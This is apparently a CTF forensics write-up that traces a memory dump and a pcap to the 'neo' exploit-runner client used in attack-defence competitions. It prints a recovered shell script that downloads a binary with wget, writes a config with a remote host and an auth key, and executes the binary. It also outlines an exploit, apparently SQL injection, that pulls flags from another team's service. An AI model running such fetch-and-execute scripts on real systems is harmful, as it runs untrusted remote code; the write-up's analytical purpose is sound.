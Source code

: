 # Research

We are given two files, a memory dump and a traffic dump. Running `strings` on the memory dump shows that this is a program on go, called `/home/ctf/word.exe` (don't let the `.exe` extension confuse you, this is a linux program). You may also notice lines about some `neo`, like `neo_exploit_queue_exploit_run_time_seconds_bucket` (which looks like some kind of metric, but is not googleable). There is nothing else useful in the memory dump so far, let's move on to traffic analysis.

# Analyzing traffic dump
Wireshark is your best friend when working with .pcap files, so let's use it. At the very beginning we see an unencrypted http request - wget downloads the file `termbin.com/0gdj`. In response, we can see a bash script:
```bash
#!/bin/sh

wget -q https://github.com/andser612345/data/raw/main/neo_client.elf -O word.exe

cat >word.yml <<-EOT
host: "neo.cbsctf.live:443"
metrics_host: "neo.cbsctf.live:8428/api/v1/import/prometheus"
exploit_dir: "data"
grpc_auth_key: "zeonrevenge"
use_tls: true
EOT

chmod +x word.exe
./word.exe -c word.yml run
```

Great, we have a binary that is running, and for which a memory dump (it can be downloaded from the same github link), and some config file. If you google `github neo_client use_tls`, the first link leads to [repository](https://github.com/C4T-BuT-S4D/neo). Seems plausible, because the domain in the config is cbsctf.live, and the repository is owned by C4T-BuT-S4D team. With a bit of research, you can realize that this is an utility for distributed exploit running for A&D competitions, and make the assumption that either one of the exploits receives a flag from another team, or contains a flag itself.

When trying to connect to `neo.cbsctf.live` we see that this domain no longer exists, so we need to dig further into the traffic and memory dump. Unfortunately, some ip addresses from the dump had already become active again by the time of CTF, and led to the left sites. This happened because everything was raised in the cloud, it was not planned.

Looking further into the traffic, we see many TLS packets to 140.82.121.3 and 185.199.110.133. According to the script, this is github, and `whois 140.82.121.3` confirms this.

At about 2774 packets we notice changes - http traffic appeared, and addresses changed. HTTP packets are collection of metrics from neo_runner, nothing interesting there. The rest is encrypted with TLS.
A little further on we see other http packets - `POST //api/register` to the address 84.252.131.189 and a little later receiving a flag via `GET //api/notes`, which receives a flag in ructf format.
This looks like some kind of exploit in A&D competition that uses sql injection to set some kind of admin flag.
